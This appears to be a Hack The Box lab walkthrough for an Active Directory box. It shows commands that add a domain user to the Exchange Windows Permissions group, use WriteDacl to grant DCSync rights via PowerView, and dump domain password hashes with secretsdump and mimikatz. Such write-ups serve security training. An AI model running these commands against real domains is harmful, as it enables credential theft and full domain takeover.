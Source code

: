 ![](../.res/2022-10-08-17-59-05.png)

- `New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)`

- `net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain`
- We did not go very far with this.
- We could also try to abuse this `WriteDacl` permission that the group "Exchange Windows Permissions has"
- Our user svc-alfresco is able to add users.
- Here are the Abuse info from bloodhound

>To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.
You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

```dos
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

>Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:

```dos
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

> Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync the password of arbitrary principals on the domain

```dos
lsadump::dcsync /domain:testlab.local /user:Administrator
```

- First let's import Powerview `. .\Powerview.ps1` was not working what worked was `Import-Module .\PowerView.ps1`
- Let's add a user `net user gabrielle gabrielle@123 /add /domain`
- Let's add it to the group with WriteDacl permission `net group "Exchange Windows Permissions" /add gabrielle`
- `Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity gabrielle -Rights DCSync` we use Add-DomainObjectAcl
- Finally we just need to dump hashes with secretdumps `secretsdump.py htb.local/gabrielle:gabrielle@123@10.10.10.161`
- We get the admin hash this way
